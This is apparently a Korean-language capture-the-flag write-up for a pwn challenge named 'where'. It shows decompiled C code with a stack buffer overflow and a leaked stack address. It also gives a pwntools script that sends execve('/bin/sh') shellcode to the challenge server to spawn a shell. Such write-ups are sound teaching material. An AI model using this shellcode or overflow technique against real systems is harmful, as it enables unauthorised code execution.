

# where



```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[8]; // [rsp+8h] [rbp-28h] BYREF
  char s[32]; // [rsp+10h] [rbp-20h] BYREF

  setup();
  puts("I have put a ramjet on the little einstein's rocket ship");
  puts("However, I do not know WHERE to go on the next adventure!");
  printf("Quincy says somewhere around here might be fun... %p\n", v4);
  fgets(s, 48, stdin);
  return 0;
}
```

NX가 꺼져있고 스택의 주소를 알려주기 때문에 shellcode를 이용한 익스가 가능하다

```python
from pwn import *
p = remote('where.harkonnen.b01lersc.tf', 8443,ssl=True)
p.recvuntil('... ')
stack = int(p.recvline()[:-1],16)+8
payload = b'\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05\x90'
payload += p64(0)
payload += p64(stack)
p.send(payload)
p.interactive()
```